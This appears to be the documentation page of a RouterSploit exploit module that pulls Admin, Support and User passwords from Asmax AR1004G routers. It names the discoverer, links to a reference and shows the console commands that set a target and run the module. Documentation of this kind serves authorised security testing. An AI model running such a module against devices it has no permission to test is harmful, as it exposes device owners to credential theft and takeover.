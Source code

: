 # Asmax AR1004G Password Disclosure

## Description
Exploits asmax password disclosure vulnerability that allows to fetch credentials for: Admin, Support and User accounts.

## Authors
* Marcin Bury <marcin.bury[at]reverse-shell.com> # vulnerability discovery & routersploit module

## References
* [https://github.com/lucyoa/exploits/blob/master/asmax/asmax.txt](https://github.com/lucyoa/exploits/blob/master/asmax/asmax.txt)

## Vulnerable devices
* Asmax AR 1004g

## Usage
```
rsf > use exploits/asmax/ar_1004g_password_disclosure
rsf (Asmax AR1004G Password Disclosure) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target port


rsf (Asmax AR1004G Password Disclosure) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Asmax AR1004G Password Disclosure) > run
[*] Running module...
```
